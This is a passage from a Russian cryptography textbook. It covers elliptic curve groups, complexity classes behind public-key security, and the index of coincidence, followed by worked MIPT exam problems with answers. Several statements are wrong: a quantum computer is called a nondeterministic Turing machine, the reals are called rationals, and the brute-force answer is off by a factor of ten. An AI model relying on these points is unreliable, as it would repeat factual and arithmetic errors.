	\subcaptionbox{$D<0$\label{fig:elliptic-curve-3}}{\includegraphics[height=2cm,keepaspectratio]{pic/elliptic-curve-3}}
	\caption{Эллиптические кривые с различными дискриминантами}
\end{figure}

\begin{enumerate}
    \item При $D>0$ график эллиптической кривой состоит из двух частей (см. рис.~\ref{fig:elliptic-curve-1}). Прямая, проходящая через точки $P(x_1; y_1)$ и $Q(x_2; y_2)$, обязательно пересечёт вторую часть кривой в точке с координатами $(x_3; \widetilde{y}_3)$, отображением которой является точка $R(x_3; y_3)$, где $y_3 = - \widetilde{y}_3$. Любые точки на кривой при $D>0$ являются элементами группы по сложению.
    \item Если $D=0$, то левая и правая части касаются в одной точке (см. рис.~\ref{fig:elliptic-curve-2}). Эти кривые называются сингулярными и не рассматриваются.
    \item Если $D<0$, то записанное выше уравнение~\ref{Wer} описывает одну кривую, представленную на рис.~\ref{fig:elliptic-curve-3}.
\end{enumerate}

Рассмотрим операцию сложения точек на эллиптической кривой при $D \ne 0$ (другие кривые не рассматриваются).

Пусть точки $P(x_1; y_1)$ и $Q(x_2; y_2)$ принадлежат эллиптической кривой (рис.~\ref{fig:elliptic-curve-1}). Определим операцию сложения точек
    \[ P + Q = R. \]

\begin{enumerate}
    \item Eсли $P \neq Q$, то точка $R$ определяется как отображение (инвертированная $y$-координата) точки, полученной пересечением эллиптической кривой и прямой $PQ$. Совместно решая уравнения кривой и прямой, можно найти координаты их точки пересечения. Зная координаты точки пересечения, можно вычислить и координаты искомой точки $R = (x_3; y_3)$, которые будут равны:
        \[ x_3 = \lambda^2 - x_1 - x_2, \]
        \[ y_3 = - y_1 + \lambda (x_1 - x_3), \]
где
        \[ \lambda = \frac{y_2 - y_1}{x_2 - x_1} \]
есть тангенс угла наклона между прямой, проходящей через точки $P$ и $Q$, и осью $x$.

	Теперь рассмотрим специальные случаи.
    \item Пусть точки совпадают: $P = Q$. Прямая $PQ$ превращается в касательную к кривой в точке $P$. Находим пересечение касательной с кривой, инвертируем $y$-координату полученной точки, это будет точка $P + P = R$. Тогда $\lambda$ -- тангенс угла между касательной, проведённой к эллиптической кривой в точке $P$, и осью $x$. Запишем уравнение касательной к эллиптической кривой в точке $(x;y)$ в виде:
            \[ 2 y y' = 3 x^2 + a. \]
        Производная равна
            \[ y' = \frac{3 x^2 + a}{2 y}, \]
        и
            \[ \lambda = \frac{3 x_1^2 + a}{2 y_1}. \]
        Координаты $R$ имеют прежний вид:
            \[ x_3 = \lambda^2 - x_1 - x_2, \]
            \[ y_3 = - y_1 + \lambda (x_1 - x_3), \]
    \item Пусть $P$ и $Q$ -- противоположные точки, то есть $P=(x;y)$ и $Q=(x; -y)$. Введём ещё одну точку на бесконечности и обозначим её $O$ (точка $O$ или точка 0 <<ноль>>, или альтернативное обозначение $\infty$). Результатом сложения двух противоположных точек определим точку $O$. Точка $Q$ в данном случае обозначается как $-P$:
        \[ P = (x;y), ~ -P = (x; -y), ~ P + (-P) = O. \]
    \item Пусть $P = (x; 0)$ лежит на оси $x$, тогда
        \[ -P = P, ~ P + P = O. \]
\end{enumerate}

Все точки эллиптической кривой, а также точка $O$, образуют коммутативную группу $\E(\R)$ относительно введённой операции сложения, то есть выполняются законы коммутативной группы\index{группа!точек эллиптической кривой}:
\begin{itemize}
    \item сумма точек $P + Q$ лежит на эллиптической кривой;
    \item существует нулевой элемент -- это точка $O$ на бесконечности:
        \[ \forall P \in \E(\R): ~ O + P = P; \]
    \item для любой точки $P$ существует единственный обратный элемент $-P$:
        \[ P + (-P) = O; \]
    \item выполняется ассоциативный закон:
        \[ (P + Q) + F = P + (Q + F) = P + Q + F; \]
    \item выполняется коммутативный закон:
        \[ P + Q = Q + P. \]
\end{itemize}

Сложение точки с самой собой $d$ раз обозначим как умножение точки на число $d$:
    \[ \underbrace{P + P + \ldots + P}_{d \text{ раз}} = d P. \]


\subsection{Эллиптические кривые над конечным полем}

Эллиптические кривые можно строить не только над полем рациональных чисел, но и над другими полями. То есть координатами точек могут выступать не только числа, принадлежащие полю рациональных чисел $\R$, но и элементы поля комплексных чисел $\mathbb{C}$ или конечного поля $\F$. В криптографии нашли своё применение эллиптические кривые именно над конечными полями.

Далее будем рассматривать эллиптические кривые над конечным полем, являющимся кольцом вычетов по модулю нечётного простого\index{число!простое} числа $p$ (дискриминант не равен 0):
    \[ E: ~ y^2 = x^3 + a x + b, \]
    \[ a, b, x, y \in \Z_p, \]
    \[ \Z_p = \{0, 1, 2, \ldots, p-1\}.\]

Возможна также более компактная запись:

    \[ E: ~ y^2 = x^3 + a x + b \mod p.\]

Точкой эллиптической кривой является пара чисел
    \[ (x,y): x, y \in \Z_p, \]
удовлетворяющая уравнению эллиптической кривой, определённой над конечным полем $\Z_p$.

Операцию сложения двух точек $P = (x_1; y_1)$ и $Q = (x_2; y_2)$ определим точно так же, как и в случае кривой над полем вещественных чисел, описанном выше.

\begin{enumerate}
    \item Две точки $P = (x_1; y_1)$ и $Q = (x_2; y_2)$ эллиптической кривой, определённой над конечным полем $\Z_p$, складываются по правилу:
        \[
            P + Q = R \equiv (x_3; y_3),
        \] \[
            \begin{cases}
                x_3 = \lambda^2 - x_1 - x_2 \mod p,\\
                y_3 = - y_1 + \lambda (x_1 - x_3) \mod p,\\
            \end{cases}
        \]
        где
        \[
            \lambda = \begin{cases}
                \dfrac{y_2 - y_1}{x_2 - x_1} \mod p, & \text{ если } P \ne Q, \\
                \\
                \dfrac{3 x_1^2 + a}{2 y_1} \mod p, & \text{ если } P = Q. \\
            \end{cases}
        \]
    \item Сложение точки $P=(x;y)$ c противоположной точкой \\
        $(-P) = (x;-y)$ даёт точку в бесконечности $O$:
        \[ P + (-P) = O, \]
        \[ (x_1,; y_1) + (x_1; -y_1) = O, \]
        \[ (x_1; 0) + (x_1; 0) = O. \]
\end{enumerate}

Мы рассматриваем эллиптические кривые над конечным полем $\Z_p$, где $p > 3$ -- простое\index{число!простое} число, элементы $\Z_p$ -- целые числа $\{0, 1, 2, \ldots, p-1\}$, то есть исследуем следующее уравнение двух переменных $x, y \in \Z_p$:
    \[ y^2 = x^3 + a x + b \mod p, \]
где $a, b \in \Z_p$ -- некоторые константы.

Как и в случае выше, множество точек над конечным полем $\Z_p$, удовлетворяющих уравнению эллиптической кривой, вместе с точкой в бесконечности $O$ образуют конечную группу $\E(\Z_p)$ относительно описанного закона сложения:\index{группа!точек эллиптической кривой}
    \[ \E(\Z_p) ~ \equiv~  O ~ \bigcup ~
        \left\{ (x; y) \in \Z_p \times \Z_p ~\Big|~ y^2 = x^3 + a x + b \mod p \right\}. \]

По теореме Хассе\index{теорема!Хассе} порядок группы точек $|\E(\Z_p)|$ оценивается как
    \[ (\sqrt{p}-1)^2 \leq |\E(\Z_p)| \leq (\sqrt{p}+1)^2, \]
или, в другой записи,
    \[ \Big| |\E(\Z_p)| - p - 1 \Big| \leq 2 \sqrt{p}. \]

\subsection{Примеры группы точек}

\subsubsection{Пример 1}

Пусть эллиптическая кривая задана уравнением
    \[ E: ~ y^2 = x^3 + 1 \mod 7. \]
Найдём все решения этого уравнения, а также количество точек $|\E(\Z_p)|$ на этой эллиптической кривой. Для нахождения решений уравнения составим следующую таблицу:

\begin{center} \begin{tabular}{|c|c|c|c|c|c|c|c|}
    \hline
    $x$ & 0 & 1 & 2 & 3 & 4 & 5 & 6 \\
    \hline
    $y^2$ & 1 & 2 & 2 & 0 & 2 & 0 & 0 \\
    \hline
    $y_1$ & 1 & 3 & 3 & 0 & 3 & 0 & 0 \\
    \hline
    $y_2 = - y_1 \mod p$ & 6 & 4 & 4 &   & 4 &   &   \\
    \hline
\end{tabular} \end{center}

Выпишем все точки, принадлежащие данной эллиптической кривой $\E(\Z_p)$:
\[
    \begin{array}{cccc}
        P_1 = O, & P_2 = (0;1), & P_3 = (0;6), & P_4 = (1;3), \\
        P_5 = (1;4), & P_6 = (2;3), & P_7 = (2;4), & P_8 = (3;0), \\
        P_9 = (4;3), & P_{10} = (4;4), & P_{11} = (5;0), & P_{12} = (6;0). \\
    \end{array}
\]

Получили
    \[ |\E(\Z_p)| = 12. \]

Проверим выполнение неравенства Хассе:
    \[ \left| 12 - 7 - 1 \right| = 4 < 2 \sqrt{7}. \]
Следовательно, неравенство Хассе выполняется.

Минимальное натуральное число $s$ такое, что
\[ \underbrace{P + P + \ldots + P}_{s} \equiv s P = O, \]
будем называть \emph{порядком точки $P$}.

%Теорема Лагранжа определяет порядок подгруппы.

\subsubsection{Пример 2}

Группа точек эллиптической кривой
    \[ y^2 = x^3 + 5 x + 6 \mod 17 \]
состоит из точек:
\[ \begin{array}{ccccccc}
    \E(\Z_p) & =~ \Big\{ & (-8; \pm 7), & (-7; \pm 6), & (-6; \pm 7), &   & \\
             &           & (-5; \pm 3), & (-3; \pm 7), & (-1; 0),     & O & \Big\}. \\
\end{array} \]

Порядок группы:
    \[ |\E(\Z_p)| = 12. \]

Порядок группы точек по теореме Хассе:
    \[ (\sqrt{p}-1)^2 \leq |\E(\Z_p)| \leq (\sqrt{p}+1)^2, \]
    \[ 10 \leq 12 \leq 26. \]

Порядки возможных подгрупп: 2, 3, 4, 6 (все возможные делители порядка группы 12).

Найдём порядок точки $A = (-8; 7)$. Так как возможные порядки подгрупп (и всех точек группы) известны, нужно проверить только их.

\begin{itemize}
\item $2A = A + A = (-5; 3)$:
\[\begin{aligned}
& R = P + P,\ P = (-8; 7), \\
& \lambda = \frac{3 x_P^2 + a}{2y_P} = \frac{3 \cdot (-8)^2 + 5}{2 \cdot 7} = 8 \mod 17, \\
& x_R = \lambda^2 - 2x_P = 8^2 - 2 \cdot (-8) = -5 \mod 17, \\
& y_R = \lambda (x_P - x_R) - y_P = 8 \cdot ((-8) - (-5)) - 7 = 3 \mod 17, \\
& R = (-5; 3). \\
\end{aligned}\]

\item $3A = 2A + A = (-6; 7)$:
\[\begin{aligned}
& R = P + Q,\ P = (-8; 7),\ Q = (-5; 3), \\
& \lambda = \frac{y_Q - y_P}{x_Q - x_P} = \frac{3 - 7}{-5 - (-8)} = -7 \mod 17, \\
& x_R = \lambda^2 - x_P - x_Q = (-7)^2 - (-8) - (-5) = -6 \mod 17, \\
& y_R = \lambda (x_P - x_R) - y_P = -7 \cdot (-8 - (-6)) - 7 = 7 \mod 17, \\
& R = (-6; 7). \\
\end{aligned}\]

\item $4A = 2A + 2A = (-5; 3) + (-5; 3) = (-3; 7)$.

\item $6A = 3A + 3A = (-6; 7) + (-6; 7) = (-1; 0)$.

\item $12A = 6A + 6A = (-1; 0) + (-1; 0) = O$.

\end{itemize}

Найденный порядок точки $A = (-8,7)$ равен 12, следовательно она является генератором всей группы.

В таблице~\ref{tab:elliptic-group-sample} найдены порядки точек и циклические подгруппы группы точек $\E(\Z_p)$ такой же эллиптической кривой
    \[ y^2 = x^3 + 5 x + 6 \mod 17. \]
Группа циклическая, число генераторов:
    \[ \varphi(12) = 4. \]
Циклические подгруппы:
    \[ \Gr^{(2)}, ~ \Gr^{(3)}, ~ \Gr^{(4)}, ~ \Gr^{(6)}, \]
верхний индекс обозначает порядок подгруппы.

\begin{table}[!ht]
    \centering
    \caption{Генераторы и циклические подгруппы группы точек эллиптической кривой\label{tab:elliptic-group-sample}}
    \resizebox{\textwidth}{!}{
    \begin{tabular}{|c|l|c|}
        \hline
        Элемент & Порождаемая группа или подгруппа & Порядок \\
        \hline
        $(-8; \pm 7) $ & Вся группа $\E(\Z_p)$ & 12, генератор \\
        $(-7; \pm 6) $ & Вся группа $\E(\Z_p)$ & 12, генератор \\
        $(-6; \pm 7) $ & $\Gr^{(4)} ~=~ \left\{ ~ (-6; \pm 7), ~ (-1; 0), ~ O ~ \right\}$ & 4 \\
        $(-5; \pm 3) $ & $\Gr^{(6)} ~=~ \left\{ ~ (-5; \pm 3), ~ (-3; \pm 7), ~ (-1; 0), ~ O ~ \right\}$ & 6 \\
        $(-3; \pm 7) $ & $\Gr^{(3)} ~=~ \left\{ ~ (-3; \pm 7), ~ O ~ \right\}$ & 3\\
        $(-1; 0)     $ & $\Gr^{(2)} ~=~ \left\{ ~ (-1; 0), ~ O ~ \right\}$ & 2\\
        \hline
    \end{tabular}
    }
\end{table}


\section[Полиномиальные и экспоненциальные алгоритмы]{Полиномиальные и \\ экспоненциальные алгоритмы}

Данный раздел поясняет обоснованность стойкости криптосистем с открытым ключом и имеет лишь косвенное отношение к дискретной математике.

Машина Тьюринга (МТ) (модель, представляющая любой вычислительный алгоритм) состоит из следующих частей:
\begin{itemize}
    \item неограниченная лента, разделённая на клетки; в каждой клетке содержится символ из конечного алфавита, содержащего пустой символ blank; если символ ранее не был записан на ленту, то он считается blank;
    \item печатающая головка, которая может считать, записать символ $a_i$ и передвинуть ленту на 1 клетку влево-вправо $d_k$;
    \item конечная таблица действий
    \[ (q_i, a_j) \rightarrow (q_{i1}, a_{j1}, d_k), \]
где $q$ -- состояние машины.
\end{itemize}

Если таблица переходов однозначна, то машина Тьюринга\index{машина Тьюринга} называется детерминированной. \textbf{Детерминированная} машина Тьюринга может \emph{имитировать} любую существующую детерминированную ЭВМ. Если таблица переходов неоднозначна, то есть $(q_i, a_j)$ может переходить по нескольким правилам, то машина \textbf{недетерминированная}. \emph{Квантовый компьютер} является примером недетерминированной машины Тьюринга.

Класс задач $\set{P}$ -- задачи, которые могут быть решены за \emph{полиномиальное} время\index{задача!полиномиальная} на \emph{детерминированной} машине Тьюринга. Пример полиномиальной сложности (количество битовых операций)
    \[ O(k^{\textrm{const}}), \]
где $k$ -- длина входных параметров алгоритма. Операция возведения в степень в модульной арифметике $a^b \mod n$ имеет кубическую сложность $O(k^3)$, где $k$ -- двоичная длина чисел $a,b,n$.

Класс задач $\set{NP}$ -- обобщение класса $\set{P} \subseteq \set{NP}$, включает задачи, которые могут быть решены за \emph{полиномиальное} время на \emph{недетерминированной} машине Тьюринга. Пример сложности задач из $\set{NP}$ -- экспоненциальная сложность\index{задача!экспоненциальная}
    \[ O(\textrm{const}^k). \]
Описанный в разделе криптостойкости системы Эль-Гамаля\index{криптосистема!Эль-Гамаля} алгоритм Гельфонда решения задачи дискретного логарифмирования (нахождения $x$ для заданных основания $g$, модуля $p$ и $a = g^x \mod p$) имеет сложность $O(e^{k/2})$, где $k$ -- двоичная длина чисел.

В криптографии полиномиальные $\set{P}$ алгоритмы считаются \emph{лёгкими и вычислимыми} на ЭВМ, которые являются детерминированными машинами Тьюринга. Неполиномиальные (экспоненциальные) $\set{NP}$ алгоритмы считаются \emph{трудными и невычислимыми} на ЭВМ, так как из-за экспоненциального роста сложности всегда можно выбрать такой параметр $k$, что время вычисления станет сравнимым с возрастом Вселенной.


Класс $\set{NP}$-полных задач -- подмножество задач из $\set{NP}$, для которых не известен полиномиальный алгоритм для детерминированной машины Тьюринга, и все задачи могут быть сведены друг к другу за полиномиальное время на \emph{детерминированной} машине Тьюринга. Например, задача об укладке рюкзака является $\set{NP}$-полной.

Стойкость криптосистем с \emph{открытым} ключом, как правило, основана на $\set{NP}$ или $\set{NP}$-полных задачах:
\begin{enumerate}
    \item RSA\index{криптосистема!RSA} -- $\set{NP}$-задача факторизации (строго говоря, основана на трудности извлечения корня степени $e$ по модулю $n$).
    \item Криптосистемы типа Эль-Гамаля\index{криптосистема!Эль-Гамаля} -- $\set{NP}$-задача дискретного логарифмирования.
\end{enumerate}

\emph{Нерешённой} проблемой является доказательство неравенства
    \[ \set{P} \neq \set{NP}. \]
Именно на гипотезе о том, что для некоторых задач не существует полиномиальных алгоритмов, и основана стойкость криптосистем с открытым ключом.

\section{Метод индекса совпадений}
\selectlanguage{russian}
\label{chap:coincide-index}

Приведём теоретическое обоснование метода индекса совпадений. Пусть алфавит имеет размер $A$. Пронумеруем его буквы числами от $1$ до $A$. Пусть заданы вероятности появления каждой буквы
    \[ \mathcal{P} = \left\{ {p_1 ,p_2 , \ldots , p_A } \right\}. \]
В простейшей модели языка предполагается, что тексты состоят из последовательности букв, порождаемых источником независимо друг от друга с известным распределением $\mathcal{P}$.

Найдём индекс совпадений для различных предположений относительно распределений букв последовательности. Сначала рассмотрим случай, когда вероятности всех букв одинаковы. Пусть
    \[ \mathbf{X} = \left[ X_1, X_2, \dots, X_L \right] \]
случайный текст с распределением
    \[ \mathcal{P}_1 = \left\{ p_{11}, p_{12}, \dots, p_{1A} \right\}. \]
Найдём индекс совпадений
    \[ I_c(\mathcal{P}_1), \]
то есть вероятность того, что в случайно выбранной паре позиций находятся одинаковые буквы.

Для пары позиций $(k,j)$ найдём условную вероятность $P \left( X_k  = X_j \mid (k,j) \right)$:
    \[ P \left( X_k  = X_j \mid (k,j) \right) ~=~ \sum\limits_{i=1}^A p_{1i}^2 ~\equiv~ k_{p_1}. \]
Эта вероятность не зависит от выбора пары позиций $(k,j)$.

Так как число различных пар равно $\frac{L(L - 1)}{2}$, то вероятность случайного выбора пары $(k,j)$ равна
    \[ P_{(K,J)} (k,j) = \frac{2}{L(L - 1)}. \]
Следовательно,
\[
    I(\mathcal{P}_1) ~= \sum \limits_{1 \leq k < j \leq L} P_{(K,J)}(k,j) ~\cdot~ P(X_k  = X_j \mid (k,j)) =
\] \[
    = \sum \limits_{1 \leq k < j \leq L} \frac{2}{L(L - 1)} k_{p_1} = k_{p_1}.
\]

Найдём теперь аналогичную вероятность $I\left( {\mathcal{P}_1 ,\mathcal{P}_2 } \right)$ для случая, когда последовательность независимых случайных букв может быть представлена в виде
\[
\mathbf{X} = \left[ {\begin{array}{*{20}c}
   {X_1 ,}  \\
   {Y_1 ,}  \\
 \end{array} \begin{array}{*{20}c}
   {X_2 ,}  \\
   {Y_2 ,}  \\
 \end{array} \begin{array}{*{20}c}
   { \ldots ,}  \\
   { \ldots ,}  \\
 \end{array} \begin{array}{*{20}c}
   {X_{L/2} }  \\
   {Y_{L/2} }  \\
 \end{array} } \right],
\]
где одинаково распределённые случайные буквы в первой строке имеют распределение
    \[ \mathcal{P}_1  = \left\{ {p_{11} ,p_{12} , \ldots , p_{1A} } \right\}, \]
а одинаково распределённые случайные буквы во второй строке имеют другое распределение
    \[ \mathcal{P}_2  = \left\{ {p_{21} ,p_{22} , \ldots , p_{2A} } \right\}. \]
В этом случае сумму по всем парам мы разделяем на три суммы: по парам внутри позиций первой строки, по парам внутри позиций второй строки и по парам, в которых первая позиция берётся из первой строки, а вторая -- из второй:
{ \small
\[
    I(\mathcal{P}_1, \mathcal{P}_2) =
        \frac{2}{L(L - 1)} \cdot \left(
        \sum \limits_{1 \leq k < j \leq L/2} P( X_k  = X_j \mid ( k,j )) ~~ + \right.
\] \[
        \left. + \sum\limits_{1 \leq k < j \leq L/2} P(Y_k  = Y_j \mid (k,j)) ~~+~~
            \sum\limits_{k=1}^{L/2} \sum\limits_{j=1}^{L/2} {P(X_k = Y_j \mid (k,j))} \right) =
\] \[
    = \frac{2}{L(L - 1)} \left( \frac{1}{2} \frac{L}{2} \left( \frac{L}{2} - 1 \right) k_{p_1} +
        \frac{1}{2} \frac{L}{2} \left( \frac{L}{2} - 1 \right) k_{p_2} +
        \left( \frac{L}{2} \right)^2 \sum \limits_{i = 1}^A p_{1,i} p_{2,i} \right) =
\] \[
    = \frac{2}{L(L - 1)} \left( \frac{1}{2} \frac{L}{2} \left( \frac{L}{2} - 1 \right) k_{p_1} +
        \frac{1}{2} \frac{L}{2} \left( \frac{L}{2} - 1 \right) k_{p_2} +
        \left( \frac{L}{2} \right)^2 k_{p_1, p_2} \right),
\] }
где обозначено
    \[ k_{p_1, p_2}  = \sum\limits_{i=1}^A p_{1,i} p_{2,i}. \]


В общем случае рассмотрим последовательность, представленную в виде матрицы, состоящей из $m$ строк и $\frac{L}{m}$ столбцов, где
\[
{\mathbf X} = \left[ {\begin{array}{*{20}c}
   {X_1 } & {X_2 } &  \cdots  & {X_{L/m} }  \\
   {Y_1 } & {Y_2 } &  \cdots  & {Y_{L/m} }  \\
    \vdots  &  \vdots  &  \vdots  &  \vdots   \\
   {Z_1 } & {Z_2 } &  \cdots  & {Z_{L/m} }  \\
\end{array}} \right].
\]
Считаем, что одинаково распределённые случайные буквы в первой строке имеют распределение:
    \[ P_1  = \left\{ {p_{11} ,p_{12} , \ldots , p_{1A} } \right\}, \]
одинаково распределённые случайные буквы во второй строке имеют распределение
    \[ P_2  = \left\{ {p_{21} ,p_{22} , \ldots , p_{2A} } \right\} \]
и т.~д., одинаково распределённые случайные буквы $m$-й строки имеют распределение
    \[ P_m  = \left\{ {p_{m1},p_{m2} , \ldots , p_{mA} } \right\}. \]

Для вычисления вероятности того, что в случайно выбранной паре позиций будут одинаковые буквы, выполним суммирование по различным парам внутри строк и по парам между различными строками. Аналогично предыдущему случаю получим:
\[\begin{array}{l}
	I(\mathcal{P}_1, \mathcal{P}_2, \ldots, \mathcal{P}_m ) ~= \\
	~=~ \frac{2}{L(L - 1)} \left( \frac{L}{2m} \left( \frac{L}{m} - 1 \right) k_{p_1} ~+~ \frac{L}{2m} \left( \frac{L}{m} - 1 \right) k_{p_2} ~+ \right. \\
	~~+~ \dots ~+~ \left. \frac{L}{2m} \left( \frac{L}{m} - 1 \right) k_{p_m} \right) ~+ \\
	~~+~ \frac{2}{L(L - 1)} \left( \left( \frac{L}{m} \right)^2 k_{p_1, p_2} + \left( \frac{L}{m} \right)^2 k_{p_1, p_3} + \dots + \left( \frac{L}{m} \right)^2 k_{p_{m - 1}, p_m } \right).
\end{array}\]

Первая сумма содержит $m$ слагаемых, вторая -- $ \frac{m(m-1)}{2}$ слагаемых. Полагая
    \[ k_{p_1} = k_{p_2} = \dots = k_{p_m} = k_p, \]
    \[ k_{p_i p_j } = k_r = \frac{1}{A}, ~ i \ne j, \]
получим после несложных выкладок
    \[ m = \frac{k_p  - k_r}{I - k_r  + \frac{k_p  - I}{L}}. \]


\chapter{Примеры задач}
\selectlanguage{russian}
\taskinit

В данном разделе приведены примеры задач, которые использовались на контрольных работах в МФТИ по курсу <<Защита информации>> в 2011--2015 годах.

\section{Математические основы}
\tasksection

\tasknumber Найдите общее количество и перечислите генераторы аддитивной циклической группы $\mathbb{Z}_{33}$ с операцией в виде сложения чисел по модулю 33.
\medbreak
\textbf{Ответ:} 20: [1, 2, 4, 5, 7, 8, 10, 13, 14, 16, 17, 19, 20, 23, 25, 26, 28, 29, 31, 32].
\bigbreak

\tasknumber Вычислить в поле Галуа $GF\left( {2^{5} } \right)$, $m\left( x \right) = x^{5} + x^{3} + x^{2} + x + 1$, следующее значение: $28 \times 29 + 23^2$. Многочлены заданы как десятичное представление двоичных коэффициентов, свободный член многочлена соответствует самому младшему биту двоичного представления. В ответе привести в десятичном представлении результаты умножения, возведения в степень и сложения.
\medbreak
\textbf{Решение:}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item $a = "28" \Rightarrow a\left( x \right) = x^{4} + x^{3} + x^{2}$;
	\item $b = "29" \Rightarrow b\left( x \right) = x^{4} + x^{3} + x^{2} + 1$;
	\item $c = "23" \Rightarrow c\left( x \right) = x^{4} + x^{2} + x + 1$;
	\item $a \left( x \right) \times b \left( x \right) = x^{4} + x^{3} + x + 1 \Rightarrow a \times b = "27"$;
	\item $c \left( x \right)^2 = x^{4} + x^{3} + x^{2} \Rightarrow c^2 = "28"$;
	\item $result\left( x \right) = x^{2} + x + 1 \Rightarrow result = "7"$.
\end{itemize}
\medbreak
\textbf{Ответ:} <<27>>; <<28>>; <<7>>.
\bigbreak

\tasknumber Вычислить в поле Галуа $GF\left( 27 \right)$, $m\left( x \right) = x^{3} + x^{2} + x + 2$, следующее значение: $26 \times 11 + 25^2$. Многочлены заданы как десятичное представление троичных коэффициентов, свободный член многочлена соответствует самому младшему биту троичного представления. В ответе привести в десятичном представлении результаты умножения, возведения в степень и сложения.
\medbreak
\textbf{Решение:}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item $a = "26" \Rightarrow a\left( x \right) = 2 x^{2} + 2 x + 2$;
	\item $b = "11" \Rightarrow b\left( x \right) = x^{2} + 2$;
	\item $c = "25" \Rightarrow c\left( x \right) = 2 x^{2} + 2 x + 1$;
	\item $a \left( x \right) \times b \left( x \right) = x^{2} + 1 \Rightarrow a \times b = "10"$;
	\item $c \left( x \right)^2 = x + 2 \Rightarrow c^2 = "5"$;
	\item $result\left( x \right) = x^{2} + x \Rightarrow result = "12"$.
\end{itemize}
\medbreak
\textbf{Ответ:} <<10>>; <<5>>; <<12>>.
\bigbreak

\tasknumber Используя алгоритм быстрого возведения в степень (с помощью разложения показателя степени по степеням двойки по схеме <<слева направо>>), вычислить ${175}^{235} \mod {257}$.
\medbreak
\textbf{Решение:}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item двоичная форма записи степени: $235_{10} = 11101011_{2}$;
	\item полное выражение для вычисления: $(((((((1 \times {175}^1)^2 \times {175}^1)^2 \times {175}^1)^2 \times {175}^0)^2 \times {175}^1)^2 \times {175}^0)^2 \times {175}^1)^2 \times {175}^1\mod 257$;
	\item шаг №1: $1^2 \times 175 \mod 257  = 175$;
	\item шаг №2: $175^2 \times 175 \mod 257 = 154$;
	\item шаг №3: $154^2 \times 175 \mod 257 = 7$;
	\item шаг №4: $7^2 \mod 257 = 49 \mod 257 = 49$;
	\item шаг №5: $49^2 \times 175 \mod 257 = 237$;
	\item шаг №6: $237^2 \mod 257 = 143$;
	\item шаг №7: $143^2 \times 175 \mod 257 = 107$;
	\item шаг №8: $107^2 \times 175 \mod 257 = 3$;
\end{itemize}
\medbreak
\textbf{Ответ:} 3.
\bigbreak

\section{Общие определения и теория}
\tasksection

\tasknumber Рассмотрим множество паролей, состоящих из 12 строчных и заглавных латинских букв, а также цифр.
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
\item Каков размер этого множества?
\item Сколько времени потребуется на взлом шифротекста, зашифрованного данным паролем, если предположить, что во взломе участвуют все компьютеры мира (7~млрд.), а средний компьютер перебирает 30~000 паролей в секунду?\footnote{См. скорости перебора MD5-хэшей\index{хэш-функция!MD5} на странице \texttt{http://openwall.info\hspace{0pt}/wiki\hspace{0pt}/john\hspace{0pt}/benchmarks}}
\item Каковы затраты электроэнергии в денежном эквиваленте, если средний компьютер потребляет мощность 400~Вт, а стоимость 1~кВт$\times$час составляет 4,68~рубля?
\end{itemize}
\medbreak
\textbf{Решение:}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item общее количество символов: $26 + 26 + 10 = 62$;
	\item общее количество паролей: $62^{12} \approx 3.226\times 10^{21}$;
	\item время на перебор: $62^{12} / (3 \times 10^5) / (7 \times 10^9 ) \approx 1,54 \times 10^{6}$ сек.;
	\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
		\item в минутах: $\approx 25605$;
		\item в часах: $\approx 427$;
		\item в днях: $\approx 18$;
	\end{itemize}
	\item стоимость: $427 * (7 \times 10^9 ) * 0,4 * 4,68 \approx 5,59 \times 10^{12}$ руб.
\end{itemize}
\medbreak
\textbf{Ответ:} паролей $3,226 \times 10^{21}$; на перебор нужно $1,54 \times 10^6$ секунд ($\approx 18$ дней); затраты -- 5,6 триллиона рублей.
\bigbreak

\tasknumber Источник открытого текста характеризуется случайной величиной $X$, принимающей два значения $x_1$ и $x_2$ с вероятностями $p \left( x = x_1 \right) = 1/5$ и $p \left( x = x_2 \right) = 4/5$ соответственно. Источник ключей характеризуется случайной величиной $Z$, независимой от величины $X$, принимающей два значения $z_1$ и $z_2$ с вероятностями $p \left( z = z_1 \right) = 1/6$ и $p \left( z = z_2 \right) = 5/6$ соответственно. Функция шифрования $E_{z} \left( x \right)$ задаётся следующими правилами: $\left( x_1, z_1 \right) \to y_1$, $\left( x_1, z_2 \right) \to y_2$, $\left( x_2, z_1 \right) \to y_2$, $\left( x_2, z_2 \right) \to y_1$.
\begin{enumerate}\itemsep1pt \parskip0pt \parsep0pt
	\item Найдите собственную информацию каждого из сообщений открытого текста в битах.
	\item Найдите энтропию источника сообщений, источника ключей и шифротекста в битах.
	\item Найдите взаимную информацию открытого текста и ключа в битах.
	\item Найдите взаимную информацию открытого текста и шифротекста в битах.
	\item Найдите взаимную информацию ключа и шифротекста в битах.
	\item Найдите апостериорное распределение вероятностей открытого текста для обоих вариантов перехваченных злоумышленником шифротекстов $y_1$ и $y_2$. Используя вычисленные значения, определите, является ли данная шифросистема абсолютно надёжной. Если нет, то что в данной криптосистеме необходимо поменять? Покажите, что апостериорные вероятности после доработки будут удовлетворять необходимым требованиям абсолютно надёжной криптосистемы.
\end{enumerate}
\medbreak
\textbf{Ответ:}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item $I \left( x_1 \right) = \log_2 5 = 2,322$ бит; $I \left( x_2 \right) = \log_2 5/4 = 0,322$ бит;
	\item $H \left( X \right) = 0,722$ бит; $H \left( Z \right) = 0,650$ бит; $H \left( Y \right) = 0,881$ бит;
	\item $I \left( X ; Z \right) = 0$ бит; $I \left( X; Y \right) = 0,231$ бит; $I \left( Y; Z \right) = 0,159$ бит;
	\item $p \left( x_1 | y_1 \right) = 1/21$; $p \left( x_2 | y_1 \right) = 20/21$; $p \left( x_1 | y_2 \right) = 5/9$; $p \left( x_2 | y_2 \right) = 4/9$; не является.
\end{itemize}

\section{КСГПСЧ и потоковые шифры}
\tasksection

\tasknumber Привести следующие два элемента последовательности, сформированной линейным конгруэнтным методом, если предыдущие 3 элемента последовательности такие: 348, 65, 139, а все вычисления выполняются в поле $\mathbb{F}_{499}$.
\medbreak
\textbf{Решение:}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item используя предыдущие значения выхода генератора, строим систему уравнений:
		\[\left\{ {\begin{array}{*{20}c}
		348 \cdot a + c = 65 \mod 499 \\
		65 \cdot a + c = 139 \mod 499 \\
		\end{array} } \right. ;\]
